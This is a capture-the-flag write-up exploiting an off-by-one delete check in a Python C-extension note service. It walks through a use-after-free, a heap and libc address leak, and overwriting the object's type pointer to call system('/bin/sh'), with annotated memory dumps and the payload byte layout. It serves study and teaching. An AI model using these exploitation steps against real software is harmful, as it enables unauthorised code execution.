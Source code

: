 # Writeup

There is wrong check in `User_delete_note` and `User_delete_shared_note`:
```c
if (index < 0 || index > Py_SIZE(self->notes)) return NULL;
```
We can use this bug to remove last note twice:
```
add_note('note1')   # size = 1
add_note('note2')   # size = 2
delete_note(idx=1)  # size = 1
delete_note(idx=1)  # size = 0
```

All objects in python have a reference counter. It increments when we store new pointers to object, and decrements when these pointers are destroyed. From [python docs](https://docs.python.org/3/extending/extending.html#reference-counting-in-python):
> There are two macros, `Py_INCREF(x)` and `Py_DECREF(x)`, which handle the incrementing and decrementing of the reference count. `Py_DECREF()` also frees the object when the count reaches zero.

So we can create the following scenario:
1. 1st user creates 1st note  (1st note refcount = 1)
2. 1st user creates 2nd note  (2nd note refcount = 1)
3. 1st user shares 2nd note to 2nd user  (2nd note refcount = 2)
4. 1st user deletes 2nd note  (2nd note refcount = 1)
5. 1st user deletes 2nd note again because of bug (2nd note refcount = 0)

After this object of 2nd note will be freed, but we will still have pointer to it at 2nd user. Now we can allocate something else on this place and print it. 

We will allocate here stucture of another user. On printing this structure we will leak address of object.

```
# note object when refcount = 1
+0000 0x7f1b405b8080  01 00 00 00 00 00 00 00  c0 d7 f0 63 07 56 00 00  │........│...c.V..│ # refcount, ptr to `PyUnicode_Type`
+0010 0x7f1b405b8090  1e 00 00 00 00 00 00 00  ff ff ff ff ff ff ff ff  │........│........│
+0020 0x7f1b405b80a0  e4 fc f1 63 07 56 00 00  00 00 00 00 00 00 00 00  │...c.V..│........│
+0030 0x7f1b405b80b0  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  │aaaaaaaa│aaaaaaaa│
+0040 0x7f1b405b80c0  61 61 61 61 61 61 61 61  61 61 61 61 61 61 00 00  │aaaaaaaa│aaaaaa..│
```
```
# note object when refcount = 0 (but we still have pointer to this object at 2nd user)
+0000 0x7f1b405b8080  d0 80 5b 40 1b 7f 00 00  c0 d7 f0 63 07 56 00 00  │..[@....│...c.V..│
+0010 0x7f1b405b8090  1e 00 00 00 00 00 00 00  ff ff ff ff ff ff ff ff  │........│........│
+0020 0x7f1b405b80a0  e4 fc f1 63 07 56 00 00  00 00 00 00 00 00 00 00  │...c.V..│........│
+0030 0x7f1b405b80b0  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  │aaaaaaaa│aaaaaaaa│
+0040 0x7f1b405b80c0  61 61 61 61 61 61 61 61  61 61 61 61 61 61 00 00  │aaaaaaaa│aaaaaa..│
```
```
# note object after allocating one more user
+0000 0x7f1b405b8080  01 00 00 00 00 00 00 00  e0 e3 cd 40 1b 7f 00 00  │........│...@....│ # refcount, ptr to `UserType`
+0010 0x7f1b405b8090  70 e5 5b 40 1b 7f 00 00  70 e6 5b 40 1b 7f 00 00  │p.[@....│p.[@....│ # ptr to `UserObject->username` object, ptr to `UserObject->password` object
+0020 0x7f1b405b80a0  b0 e6 5b 40 1b 7f 00 00  f0 e6 5b 40 1b 7f 00 00  │..[@....│..[@....│ # ->secret_note, ->key
+0030 0x7f1b405b80b0  c0 7c 5a 40 1b 7f 00 00  80 7c 5a 40 1b 7f 00 00  │.|Z@....│.|Z@....│ # ->notes, ->notes_info
+0040 0x7f1b405b80c0  00 7c 5a 40 1b 7f 00 00  c0 7b 5a 40 1b 7f 00 00  │.|Z@....│.{Z@....│ # ->shared notes, ->shared_notes_info
```

Having address of this object, we can calculate address of libc, because offset to it is constant.
```
0x7f1b40599000     0x7f1b40920000 rw-p   387000      0 [anon_7f1b40599]                         # object is at `0x7f1b405b8080`
0x7f1b40920000     0x7f1b40977000 r--p    57000      0 /usr/lib/locale/C.utf8/LC_CTYPE
0x7f1b40977000     0x7f1b40979000 rw-p     2000      0 [anon_7f1b40977]
0x7f1b40979000     0x7f1b409a1000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
```

Remember that we have user object and note object at the same place.
We can delete note object and allocate on it's place bytearray. Bytearray will overwrite pointer to `UserType`. This pointer is something like pointer to vtable. If we rewrite it to some invalid address, almost any further interaction with this object will lead to crash. 

We can do this and see that it crashes while trying to call `UserType+0x90`. At this place should be pointer to `PyObject_GenericGetAttr` function. But we can rewrite `UserType` pointer to call something else, for example `system("/bin/sh")`. To do this, we should write:
1. `'/bin/sh\0'` at object address
2. `object_address+0x10 - 0x90` at object address + 8
3. `system` address at object address + 0x10

```
+0000 0x7f1b405b8080  2f 62 69 6e 2f 73 68 00  00 80 5b 40 1b 7f 00 00  │/bin/sh.│..[@....│
+0010 0x7f1b405b8090  90 b9 84 40 1b 7f 00 00  71 71 71 71 71 71 71 71  │...@....│qqqqqqqq│
+0020 0x7f1b405b80a0  71 71 71 71 71 71 71 71  71 71 71 71 71 71 71 71  │qqqqqqqq│qqqqqqqq│
+0030 0x7f1b405b80b0  71 71 71 71 71 71 71 71  71 71 71 71 71 71 71 71  │qqqqqqqq│qqqqqqqq│
```

Now *(*UserType+0x90) points to `system`, on calling it the first argument will be address of this object, it's first bytes are `/bin/sh`, so we finally executed `system("/bin/sh")`

[Exploit](./sploit.py)

*Note:* Offset from leaked user to libc depends on python binary and executable file. To get correct offset you should make sure that your debug environment is the same as in the service.
